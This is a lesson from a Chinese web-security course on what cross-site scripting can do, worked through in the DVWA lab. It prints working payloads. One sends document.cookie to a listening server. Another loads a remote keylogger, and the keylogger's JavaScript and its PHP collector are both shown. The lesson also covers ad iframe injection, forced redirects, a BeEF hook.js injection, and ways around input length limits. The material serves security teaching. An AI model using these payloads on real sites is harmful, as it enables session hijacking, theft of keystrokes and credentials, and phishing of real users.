



- 00 导读 解读OWASP Top10 2021.md.html
- 00 开篇词 从黑客的视角找漏洞，从安全的角度优雅coding.md.html
- 01 失效的访问控制：攻击者如何获取其他用户信息？.md.html
- 02 路径穿越：你的Web应用系统成了攻击者的资源管理器？.md.html
- 03 敏感数据泄露：攻击者如何获取用户账户？.md.html
- 04 权限不合理：攻击者进来就是root权限？.md.html
- 05 CSRF：为什么用户的操作他自己不承认？.md.html
- 06 加密失败：使用了加密算法也会被破解吗？.md.html
- 07 弱编码：程序之间的沟通语言安全吗？.md.html
- 08 数字证书：攻击者可以伪造证书吗？.md.html
- 09 密码算法问题：数学知识如何提高代码可靠性？.md.html
- 10 弱随机数生成器：攻击者如何预测随机数？.md.html
- 11 忘记加“盐”：加密结果强度不够吗？.md.html
- 12 注入（上）：SQL注入起手式.md.html
- 13 注入（下）：SQL注入技战法及相关安全实践.md.html
- 14 自动化注入神器（一）：sqlmap的设计思路解析.md.html
- 15 自动化注入神器（二）：sqlmap的设计架构解析.md.html
- 16 自动化注入神器（三）：sqlmap的核心实现拆解.md.html
- 17 自动化注入神器（四）：sqlmap的核心功能解析.md.html
- 19 失效的输入检测（上）：攻击者有哪些绕过方案？.md.html
- 20 失效的输入检测（下）：攻击者有哪些绕过方案？.md.html
- 21 XSS（上）：前端攻防的主战场.md.html
- 22 XSS（中）：跨站脚本攻击的危害性.md.html
- 23 XSS（下）：检测与防御方案解析.md.html
- 24 资源注入：攻击方式为什么会升级？.md.html
- 25 业务逻辑漏洞：好的开始是成功的一半.md.html
- 26 包含敏感信息的报错：将安全开发标准应用到项目中.md.html
- 27 用户账户安全：账户安全体系设计方案与实践.md.html
- 28 安全配置错误：安全问题不只是代码安全.md.html
- 29 Session与Cookie：账户体系的安全设计原理.md.html
- 30 HTTP Header安全标志：协议级别的安全支持.md.html
- 31 易受攻击和过时的组件：DevSecOps与依赖项安全检查.md.html
- 32 软件和数据完整性故障：SolarWinds事件的幕后⿊⼿.md.html
- 33 SSRF：穿越边界防护的利刃.md.html
- 34 Crawler VS Fuzzing：DAST与机器学习.md.html
- 35 自动化攻防：低代码驱动的渗透工具积累.md.html
- 36 智能攻防：构建个性化攻防平台.md.html
- 大咖助场 数字证书，困境与未来.md.html
- 春节策划（一） 视频课内容精选：Web渗透测试工具教学.md.html
- 春节策划（三） 一套测试题，看看对课程内容的掌握情况.md.html
- 春节策划（二） 给你推荐4本Web安全图书.md.html
- 结束语 无畏前行.md.html
- 捐赠
22 XSS（中）：跨站脚本攻击的危害性
你好，我是王昊天。
在上一节课程中，我们学习了什么是XSS攻击，并且介绍了XSS攻击的不同种类。在攻击示例的代码中，我们仅仅是让网页弹出一个警告框，看上去XSS攻击并没有什么作用，但实际上，它的危害性是比较大的。你会好奇XSS攻击会造成哪些危害吗？
这节课，让我们一起来深入了解一下。
XSS攻击的危害
XSS攻击的危害主要包括四种类型，我已经将它们整理在下图中，它们分别是盗取cookie、按键记录和钓鱼、广告植入以及欺骗跳转。
首先我们来学习具有代表性的XSS攻击利用，盗取cookie，看看攻击者是如何用XSS攻击实现对cookie的窃取。
盗取cookie
cookie在英文中的意思为甜品、饼干，不过这里盗取cookie可不是偷饼干的意思哦。在HTTP请求中，cookie代表着登录信息，我们在Web应用登录成功后，服务器端会生成一个cookie。然后服务器端会将这个生成的cookie发送给我们，供我们之后访问的时候使用。
如果攻击者拿到cookie信息了，那他就可以实现登录我们的账号，这是非常危险的，所以我们平时需要保护好我们的cookie信息。
在了解完cookie是什么之后，让我们用一个示例，一起看看XSS攻击是如何获得cookie信息的。
这是一个DVWA靶场，我们在登陆后选择DOM型XSS，获得如下页面：

在上一讲的实战部分中，我们成功的对这个页面进行了XSS注入攻击，其中使用的payload为：
<script>alert(1)</script>
在之前的学习中，我们知道它可以让页面弹出一个警告框，但如果我们将这个payload改为如下：
<script>var pic=document.createElement("img");pic.src="http://127.0.0.1:2222/getCookie?"+escape(document.cookie)</script>
这个payload会调用JavaScript创建一个Element对象，之后将这个对象的src设置为我们监听的地址端口，向这个地址用GET方式上传参数document.cookie，这样我们就能窃取到用户的cookie啦。

可以看到，我们已经收到这个GET请求了，它的cookie值也被我们接收到了。
到这里，你已经学习了用XSS攻击来盗取cookie的用法。接下来，让我们来学习如何用XSS攻击实现按键记录以及钓鱼。
按键记录和钓鱼
首先我们来看看如何实现按键记录。
我们仍然选择DVWA的XSS(DOM)靶场做测试，只需要更换payload即可，将payload设置为：
<script src=http://192.168.3.193/keylogger.js></script>
这段代码可以去调用远程地址中的JavaScript文件，使得keylogger.js中的代码被执行。这里的keylogger.js的内容为：
document.onkeypress = function(evt) {
evt = evt || window.event;
key = String.fromCharCode(evt.charCode);
if(key) {
var http = new XMLHttpRequest();
var param = encodeURI(key);
http.open("POST","http://192.168.3.193/keylogger.php",true);
http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
http.send("key="+param);
}
}
它创建了一个监听按键的事件，这个事件可以记录用户在当前页面按下的每一个键，并将接收到的按键通过POST方式上传到攻击者用来存储按键记录的服务器上。其中keylogger.php的代码为：
<?php
$key=$_POST['key'];
$logfile="keylog.txt";
$fp = fopen($logfile,"a");
fwrite($fp,$key);
fclose($fp);
?>
它可以将接收到的key记录到keylog.txt文件中，这样就能实现按键记录的功能了。
我们胡乱的在被攻击的页面按下一些键，发现我们用来记录按键的服务器已经获取到了按键内容，并将它们存储在keylog.txt中。
我们还可以将这个按键记录做一下加工，使得用户可以输入一些敏感信息例如账号、密码等信息。我们可以用JavaScript创建出一个伪造的登陆框，这样用户很可能会上当，在这里输入自己的用户名和密码，我们可以利用之前的按键记录获取到这些信息。这种行为就是钓鱼攻击，因为它本质上和钓鱼非常类似，在钓鱼中我们就会利用鱼饵，将锋利的鱼钩伪装成美味的食物，这样就能骗得鱼儿上钩。
相信到这里你已经明白了如何用XSS攻击来实现按键记录以及钓鱼。接下来，让我们学习用XSS实现广告植入的方式吧。
广告植入
想要做广告植入，那我们需要用存储型XSS注入，这样就可以使得所有访问受攻击页面的用户都会看到广告。
这里我们选择用DVWA的存储型XSS作为示例，如下图，这里需要输入一个姓名和消息。
经过测试后，我们发现这个Message框内会受到XSS攻击，于是直接可以将负载改为：
<script>document.writeln("<iframe scrolling='no' frameborder='0' marginheight='0' marginwidth='0' width='1000' height='2000' allowTransparency src=https://time.geekbang.org/course/detail/100055001-283034></iframe>");</script>
这段恶意负载可以在当前页面以行的方式输出src对应的内容，这样我们把广告的地址设置为src即可。可以看到广告已经弹出，这就是用XSS实现广告植入的方法。
在测试的过程中，你可能会发现我们无法输入完整的负载，这是因为DVWA对这个输入框有长度限制，我们有两种方法可以绕过这一输入限制。
第一种，我们先随意输入符合长度要求的Message内容，之后用BurpSuite去进行拦截修改，将Message的内容修改为我们想要设置的恶意负载，这样就可以绕过输入长度限制。
第二种，我们可以去修改页面的限制代码，首先在Message输入框内右键，选择检查，这样关于它的代码就会高亮显示。
在图中，我们可以看到它限制了最多输入50个字符，我们可以将这个数字改为1000或者更大，来满足我们对负载长度的要求。修改过后，我们就可以任意输入想要的负载啦。这里也是在前端进行的修改。

下面，让我们继续学习XSS的危害类型，看看如何用XSS去实现欺骗跳转。
欺骗跳转
有的网页希望增加访问量，或者吸引用户访问，那么就可能会用XSS攻击来实现这一目的。下面我们继续以DVWA靶场中的存储型XSS作为示例。
为了实现欺骗跳转，我们需要将负载设置为：
<script>window.location.href=“跳转的目的地址”;</script>
这段负载也是JavaScript代码，它可以使得当前页面跳转到设置的目的地址，这就是跳转产生的原因。注意，这里同样是需要绕过输入长度的限制的哦。
这样，当我们访问被攻击的页面时，页面会自动跳转到攻击者设置的地址中，如果攻击者将这个地址伪造为被攻击的页面，那么很容易迷惑访问用户，使得用户认为这就是被攻击的页面，但事实上，用户已经落入到攻击者的圈套之中了。
这就是用XSS实现欺骗跳转的方法。到这里，你已经学完了常见的XSS攻击利用方法，事实上，这就是一个任意JavaScript命令执行漏洞，我们只要更换不同的JavaScript语句，就可以实现这些攻击行为。
上述内容都是我们对XSS攻击的手动利用，接下来，让我们来学习一款XSS攻击自动利用神器——BeEF。
BeEF的使用
我们都知道Beef是牛肉的意思，这款名为BeEF的软件也是非常牛的。我们利用它可以进行各种各样的攻击操作，并且不需要我们手动进行一些负载的设计，下面让我们一起来学习它吧。
首先我们要来安装这款软件，我们可以在kali虚拟机中使用 sudo apt install beef-xss 进行BeEF的安装，如果失败，那么我们运行 sudo apt-get update 进行apt的更新，然后重新安装即可。
安装完成之后，我们就可以用命令 sudo beef-xss 来打开这个软件，可以看到它会自动弹出一个Web页面，这就是这个软件的用户界面。
我们选择DVWA的存储型XSS攻击来做测试，让你可以更好地理解这款工具。
那么在利用BeEF前，我们首先需要进行XSS攻击。
和之前我们手动攻击一样，需要在Message框内输入恶意负载，由于我们BeEF工具所在的服务器地址为192.168.3.101，所以我们将负载设置为：
<script src="http://192.168.3.101:3000/hook.js"></script>
这样，每当这个页面被访问时，都会触发我们注入的JavaScript代码，使得页面向我们的恶意服务器请求hook.js文件，其中你可以简单认为hook.js文件是BeEF的一个接口，之后我们在BeEF调用的命令都是通过这个接口来实现的。
完成了接口的设置之后，我们在BeEF的页面，可以看到BeEF中的Hooked Browsers一栏已经显示出被攻击的目标。

这里192.168.3.124是我搭建的DVWA靶场的地址，代表的是被攻击服务器IP，而192.168.3.102代表的是访问被攻击服务器的用户机器的IP。我们点击Current Browser就可以进行我们想要的攻击行为啦。
首先我们选中Commands这一栏，然后根据描述选择其中我们想要发起的攻击行为，例如：GET Cookie。
可以看到我们已经获取到了cookie信息。这比我们手动去获取cookie简单很多。
这就是BeEF的用法介绍，当然它具有很多有趣的攻击功能，下面我再介绍它的一个功能，那就是改变页面内容。

我们可以在Deface Content中对内容进行设置，然后点击执行按钮，可以发现我们的DVWA靶场已经变为了刚刚设计的内容。
其实BeEF的非常强大，它具有几百个不同的攻击命令，你可以一一尝试去把玩它们。
总结
在这节课程中，我们可以感受到XSS攻击的可怕之处，并且清楚了它的危害性。
首先我们学习了对XSS攻击的手动利用，包括了盗取cookie、按键记录和钓鱼、广告植入以及欺骗跳转这些不同的攻击手段。但事实上，我们都是利用的JavaScript代码注入，页面中一切JavaScript代码可以实现的功能，我们都能实现。所以实现XSS攻击的能力，和JavaScript的掌握程度息息相关。
然后，我们学习了XSS攻击神器——BeEF，利用它我们不需要再亲自构造JavaScript代码，而是利用设计好的代码直接发起我们想要的攻击行为，这给我们带来了极大的便利。
思考题
除了这节课中提到的XSS攻击种类，你还能想到别的攻击种类吗？
欢迎在评论区留下你的思考。如果觉得今天的内容对你有所帮助的话，也欢迎你把课程分享给其他同事或朋友，我们共同学习进步！
© 2019 - 2023 Liangliang Lee. Powered by gin and hexo-theme-book.